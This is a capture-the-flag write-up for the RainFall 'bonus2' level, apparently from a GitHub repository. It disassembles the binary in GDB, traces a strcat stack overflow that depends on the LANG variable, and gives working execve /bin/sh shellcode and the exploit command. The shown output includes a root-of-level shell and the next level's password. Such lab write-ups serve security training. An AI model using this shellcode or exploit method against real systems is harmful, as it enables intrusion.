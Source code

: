 # bonus2

## exploring the binary
```shell
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 phantom
bonus2@RainFall:~$ ./bonus2 phantom phantom
Hello phantom
```
It seems that this binary accepts 2 argument values and prints 'Hello' together with <code>av[1]</code>.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048529 <+0>:	push   %ebp
   0x0804852a <+1>:	mov    %esp,%ebp
   0x0804852c <+3>:	push   %edi
   0x0804852d <+4>:	push   %esi
   0x0804852e <+5>:	push   %ebx
   0x0804852f <+6>:	and    $0xfffffff0,%esp
   0x08048532 <+9>:	sub    $0xa0,%esp
   0x08048538 <+15>:	cmpl   $0x3,0x8(%ebp)
   0x0804853c <+19>:	je     0x8048548 <main+31>
   0x0804853e <+21>:	mov    $0x1,%eax
   0x08048543 <+26>:	jmp    0x8048630 <main+263>
   0x08048548 <+31>:	lea    0x50(%esp),%ebx
   0x0804854c <+35>:	mov    $0x0,%eax
   0x08048551 <+40>:	mov    $0x13,%edx
   0x08048556 <+45>:	mov    %ebx,%edi
   0x08048558 <+47>:	mov    %edx,%ecx
   0x0804855a <+49>:	rep stos %eax,%es:(%edi)
   0x0804855c <+51>:	mov    0xc(%ebp),%eax
   0x0804855f <+54>:	add    $0x4,%eax
   0x08048562 <+57>:	mov    (%eax),%eax
   0x08048564 <+59>:	movl   $0x28,0x8(%esp)
   0x0804856c <+67>:	mov    %eax,0x4(%esp)
   0x08048570 <+71>:	lea    0x50(%esp),%eax
   0x08048574 <+75>:	mov    %eax,(%esp)
   0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:	mov    0xc(%ebp),%eax
   0x0804857f <+86>:	add    $0x8,%eax
   0x08048582 <+89>:	mov    (%eax),%eax
   0x08048584 <+91>:	movl   $0x20,0x8(%esp)
   0x0804858c <+99>:	mov    %eax,0x4(%esp)
   0x08048590 <+103>:	lea    0x50(%esp),%eax
   0x08048594 <+107>:	add    $0x28,%eax
   0x08048597 <+110>:	mov    %eax,(%esp)
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:	movl   $0x8048738,(%esp)
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
   0x080485ab <+130>:	mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)
   0x080485ba <+145>:	je     0x8048618 <main+239>
   0x080485bc <+147>:	movl   $0x2,0x8(%esp)
   0x080485c4 <+155>:	movl   $0x804873d,0x4(%esp)
   0x080485cc <+163>:	mov    0x9c(%esp),%eax
   0x080485d3 <+170>:	mov    %eax,(%esp)
   0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>
   0x080485db <+178>:	test   %eax,%eax
   0x080485dd <+180>:	jne    0x80485eb <main+194>
   0x080485df <+182>:	movl   $0x1,0x8049988
   0x080485e9 <+192>:	jmp    0x8048618 <main+239>
   0x080485eb <+194>:	movl   $0x2,0x8(%esp)
   0x080485f3 <+202>:	movl   $0x8048740,0x4(%esp)
   0x080485fb <+210>:	mov    0x9c(%esp),%eax
   0x08048602 <+217>:	mov    %eax,(%esp)
   0x08048605 <+220>:	call   0x8048360 <memcmp@plt>
   0x0804860a <+225>:	test   %eax,%eax
   0x0804860c <+227>:	jne    0x8048618 <main+239>
   0x0804860e <+229>:	movl   $0x2,0x8049988
   0x08048618 <+239>:	mov    %esp,%edx
   0x0804861a <+241>:	lea    0x50(%esp),%ebx
   0x0804861e <+245>:	mov    $0x13,%eax
   0x08048623 <+250>:	mov    %edx,%edi
   0x08048625 <+252>:	mov    %ebx,%esi
   0x08048627 <+254>:	mov    %eax,%ecx
   0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
   0x0804862b <+258>:	call   0x8048484 <greetuser>
   0x08048630 <+263>:	lea    -0xc(%ebp),%esp
   0x08048633 <+266>:	pop    %ebx
   0x08048634 <+267>:	pop    %esi
   0x08048635 <+268>:	pop    %edi
   0x08048636 <+269>:	pop    %ebp
   0x08048637 <+270>:	ret
```
The main function calls <code>getenv()</code> to retrieve an environmental variable. It makes a few <code>memcmp()</code> calls and also calls the <code>greetuser()</code> function. The env is copied into <code>0x8048738</code> and compared to 2 different strings:
```shell
(gdb) x/s 0x8048738
0x8048738:	 "LANG"
(gdb) x/s 0x804873d
0x804873d:	 "fi"
(gdb) x/s 0x8048740
0x8048740:	 "nl"
```
Depending on the result of the comparison, a variable at <code>0x08049988</code> is assigned a value of <code>0x1</code> (1) or <code>0x2</code> (2). We then look for all global variables to identify it:
``` shell
All defined variables:

Non-debugging symbols:
0x08048708  _fp_hw
0x0804870c  _IO_stdin_used
0x0804886c  __FRAME_END__
0x08049870  __CTOR_LIST__
0x08049870  __init_array_end
0x08049870  __init_array_start
0x08049874  __CTOR_END__
0x08049878  __DTOR_LIST__
0x0804987c  __DTOR_END__
0x08049880  __JCR_END__
0x08049880  __JCR_LIST__
0x08049884  _DYNAMIC
0x08049950  _GLOBAL_OFFSET_TABLE_
0x08049978  __data_start
0x08049978  data_start
0x0804997c  __dso_handle
0x08049980  completed.6159
0x08049984  dtor_idx.6161
0x08049988  language
```
Now we know that the global variable <code>language</code> is set to either 1 or 2, depending on whether <code>LANG</code> is set to Finnish or Dutch. Next, we look at the <code>greetuser()</code> function:
```shell
Dump of assembler code for function greetuser:
   0x08048484 <+0>:	push   %ebp
   0x08048485 <+1>:	mov    %esp,%ebp
   0x08048487 <+3>:	sub    $0x58,%esp
   0x0804848a <+6>:	mov    0x8049988,%eax
   0x0804848f <+11>:	cmp    $0x1,%eax
   0x08048492 <+14>:	je     0x80484ba <greetuser+54>
   0x08048494 <+16>:	cmp    $0x2,%eax
   0x08048497 <+19>:	je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:	test   %eax,%eax
   0x0804849b <+23>:	jne    0x804850a <greetuser+134>
   0x0804849d <+25>:	mov    $0x8048710,%edx
   0x080484a2 <+30>:	lea    -0x48(%ebp),%eax
   0x080484a5 <+33>:	mov    (%edx),%ecx
   0x080484a7 <+35>:	mov    %ecx,(%eax)
   0x080484a9 <+37>:	movzwl 0x4(%edx),%ecx
   0x080484ad <+41>:	mov    %cx,0x4(%eax)
   0x080484b1 <+45>:	movzbl 0x6(%edx),%edx
   0x080484b5 <+49>:	mov    %dl,0x6(%eax)
   0x080484b8 <+52>:	jmp    0x804850a <greetuser+134>
   0x080484ba <+54>:	mov    $0x8048717,%edx
   0x080484bf <+59>:	lea    -0x48(%ebp),%eax
   0x080484c2 <+62>:	mov    (%edx),%ecx
   0x080484c4 <+64>:	mov    %ecx,(%eax)
   0x080484c6 <+66>:	mov    0x4(%edx),%ecx
   0x080484c9 <+69>:	mov    %ecx,0x4(%eax)
   0x080484cc <+72>:	mov    0x8(%edx),%ecx
   0x080484cf <+75>:	mov    %ecx,0x8(%eax)
   0x080484d2 <+78>:	mov    0xc(%edx),%ecx
   0x080484d5 <+81>:	mov    %ecx,0xc(%eax)
   0x080484d8 <+84>:	movzwl 0x10(%edx),%ecx
   0x080484dc <+88>:	mov    %cx,0x10(%eax)
   0x080484e0 <+92>:	movzbl 0x12(%edx),%edx
   0x080484e4 <+96>:	mov    %dl,0x12(%eax)
   0x080484e7 <+99>:	jmp    0x804850a <greetuser+134>
   0x080484e9 <+101>:	mov    $0x804872a,%edx
   0x080484ee <+106>:	lea    -0x48(%ebp),%eax
   0x080484f1 <+109>:	mov    (%edx),%ecx
   0x080484f3 <+111>:	mov    %ecx,(%eax)
   0x080484f5 <+113>:	mov    0x4(%edx),%ecx
   0x080484f8 <+116>:	mov    %ecx,0x4(%eax)
   0x080484fb <+119>:	mov    0x8(%edx),%ecx
   0x080484fe <+122>:	mov    %ecx,0x8(%eax)
   0x08048501 <+125>:	movzwl 0xc(%edx),%edx
   0x08048505 <+129>:	mov    %dx,0xc(%eax)
   0x08048509 <+133>:	nop
   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
   0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>
   0x0804851c <+152>:	lea    -0x48(%ebp),%eax
   0x0804851f <+155>:	mov    %eax,(%esp)
   0x08048522 <+158>:	call   0x8048390 <puts@plt>
   0x08048527 <+163>:	leave
   0x08048528 <+164>:	ret
```
This function uses <code>strcat()</code> to join two strings. Depending on the value of <code>language</code>, it loads the first string from three different addresses: 1 for Finnish (jump to +54), 2 for Dutch (jump to +101), and a default for English (jump to +134). It then joins this first string with the string passed to the function (<code>av[2]</code>). The final string, which greets the second string entered in the binary call, is displayed using <code>puts()</code>.
```shell
(gdb) x/s 0x8048717
0x8048717:	 "Hyvää päivää "
(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "
(gdb) x/s 0x8048710
0x8048710:	 "Hello "
```

## buffer overrun attack
Since the <code>greetuser()</code> function uses <code>strcat()</code>, it will be vulnerable to a <code>buffer overflow</code> attack once again. To find the offset, we use the ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)) tool as we did previously and set the environmental variable <code>LANG</code> to one of the two languages to make the string longer compared to English. It does not matter which language we choose, because both foreign language greetings have the same length.
``` shell
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) run $(python -c "print '\x90' * 40") 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/bonus2/bonus2 $(python -c "print '\x90' * 40") 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Hyvää päivää ����������������������������������������Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()

```
Now we know the offset is equal to 18. As there is no direct call to <code>/bin/sh</code> in the whole code, we opt to use <code>shellcode</code> as in <code>bonus0</code>:
``` shell
bonus2@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus2@RainFall:/tmp$ cc addr.c -o addr
bonus2@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85c
```
Based on the information from <code>main()</code>, we know that <code>0x28</code> (40) bytes are copied from <code>av[1]</code>. With this knowledge, we can now construct the exploit.

## exploit
``` shell
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xbf\xff\xf8\x5c"[::-1]')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB\���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
